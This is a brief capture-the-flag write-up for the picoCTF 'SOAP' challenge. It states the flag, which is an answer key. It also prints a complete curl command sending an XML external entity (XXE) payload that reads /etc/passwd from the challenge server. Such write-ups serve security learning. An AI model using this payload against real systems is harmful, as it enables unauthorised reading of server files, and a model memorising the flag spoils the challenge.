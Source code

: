 # SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`

curl goes brrr this time.

### Devtools

clicking the view shows xml requests being sent. I remeber something about xml based attacks and a quickt google search turns up XXE

The hardest thing here is whether or not to use burpsuite or curl.

Quickly impliment it in curl (copy to curl in devtools is sooo goood) -
```sh
curl 'http://saturn.picoctf.net:59513/data' \
  -H 'Accept: */*' \
  -H 'Content-Type: application/xml' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
  --insecure
```
aaand that's it. Really. nothing more. almost disappointing.

- Sources:
https://portswigger.net/web-security/xxe
